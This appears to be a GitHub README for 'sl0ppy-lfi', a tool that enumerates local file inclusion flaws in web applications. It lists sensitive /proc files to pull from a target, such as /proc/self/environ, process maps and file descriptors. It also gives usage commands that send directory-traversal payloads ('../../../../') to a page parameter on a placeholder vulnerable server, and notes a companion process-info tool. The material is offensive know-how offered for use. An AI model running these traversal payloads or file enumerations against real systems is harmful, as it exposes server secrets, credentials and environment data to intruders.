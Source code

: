 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* /proc/loginuid
* /proc/maps
* /proc/patch-state
* /proc/numa_maps
* /proc/stack
* /proc/personality
* /proc/pagemap
* /proc/cgroup
* /proc/sched
* /proc/mounts
* /proc/status
* /proc/environ
* /proc/shedstat
* /proc/meminfo
* /proc/self/
* /proc/self/stat
* /proc/self/environ
* /proc/self/maps/
* /proc/self/fd/
* and more
# Usage 

# Enum all
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
